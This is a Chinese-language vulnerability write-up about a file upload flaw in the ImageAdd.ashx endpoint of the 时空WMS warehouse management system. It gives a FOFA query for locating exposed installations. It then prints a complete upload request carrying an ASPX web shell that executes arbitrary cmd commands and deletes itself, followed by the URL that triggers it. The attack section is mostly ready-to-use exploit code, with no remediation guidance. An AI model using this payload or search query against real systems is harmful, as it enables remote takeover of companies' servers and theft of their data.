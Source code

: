 # 时空WMS-仓储精细化管理系统ImageAdd存在文件上传漏洞

# 同一、漏洞简介
时空WMS-仓储精细化 管理系统Q是一款高效、智能的仓储管理工具，旨在帮助企业实现仓库的精细化管理和高效运营。由郑州时空软件开发，专注于以数字化、智能化推动企业进步。该系统基于先进的仓储管理理念和技术架构，融合了物联网、移动互联等前沿技术，实现了对仓库内物资的全面、精准、高效管理。系统适用于各类仓储物流企业，包括电商仓储、第三方物流、生产仓储等多个领域。通过使用该系统，企业可以实现对仓库内物资的全面掌控和高效管理，提高库存周转率，降低库存成本，提升企业竞争优势。时空WMS-仓储精细化管理系统ImageAdd存在文件上传漏洞 

# 二、影响版本
```plain
时空WMS-仓储精细化管理系统
```

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`body="SKControlkLForJson.ashx"`
+ 特征

![1733071650019-13b87c7a-4d19-452b-ad2c-e2165a0ac370.png](./img/lbQy6c61cqR48Uxn/1733071650019-13b87c7a-4d19-452b-ad2c-e2165a0ac370-168361.png)

# 四、漏洞复现
```plain
POST /ImageUpload/ImageAdd.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![1733071883096-b7edb49c-40ac-40ee-abca-d3f58575a2ef.png](./img/lbQy6c61cqR48Uxn/1733071883096-b7edb49c-40ac-40ee-abca-d3f58575a2ef-148543.png)

```plain
/upload/20241202/rce.aspx?cmd=whoami
```

![1733071908903-3da1d155-fb3d-4485-a9e6-a666ec6165b6.png](./img/lbQy6c61cqR48Uxn/1733071908903-3da1d155-fb3d-4485-a9e6-a666ec6165b6-485211.png)



> 更新: 2024-12-20 14:53:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uuwme5gg6bcn6cym>